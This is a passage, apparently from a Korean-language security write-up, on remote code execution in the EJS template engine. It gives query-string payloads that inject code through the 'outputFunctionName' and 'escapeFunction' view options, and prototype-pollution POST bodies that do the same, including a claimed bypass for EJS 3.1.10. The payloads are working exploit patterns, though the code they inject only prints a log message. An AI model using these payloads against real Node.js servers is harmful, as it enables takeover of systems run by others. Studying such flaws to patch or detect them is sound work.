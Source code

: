 그럼, 페이로드들에 대해서 알아보자.

#### EJS < 3.1.7

```plaintext
http://localhost:3000/?id=2&settings[view options][outputFunctionName]=x;console.log('rce!!');x
```

#### EJS <= 3.1.10

```plaintext
http://localhost:3000/?id=2&settings[view options][client]=1&settings[view options][escapeFunction]=x;console.log('rce!!');x
```

### EJS RCE with prototype pollution

해당 취약점은 아래의 코드에서 발생한다. 물론, 인자로 아무것도 안 넘겨주는 경우도 발생한다.

```js
app.post('/a', (req, res) => {
  merge({}, req.body)
  res.render('index', { foo: 'bar' })
})
```

이 취약점은, `prototype pollution`을 통해 발생한다. 즉, `prototype pollution`이 `RCE`까지 연결될 수 있는 것이다. 또한, `prototype pollution`으로 발생하는 취약점은 `EJS@3.1.10`에서 한 번 패치가 됐지만, 간단한 우회 방법을 통해서 `EJS@3.1.10`에서도 발생한다.

그럼 페이로드들을 알아보자.

#### EJS < 3.1.10

```typescript
await r.post('/a', {
  constructor: {
    prototype: {
      client: 1,
      escapeFunction: `console.log;console.info("RCE!!!")`,
    },
  },
})
```

#### EJS <= 3.1.10

```typescript
await r.post('/a', {
  constructor: {
    prototype: {
      'view options': {
        client: 1,
        escapeFunction: `console.log;console.info("RCE!!!")`,
      },
    },
  },
})
```
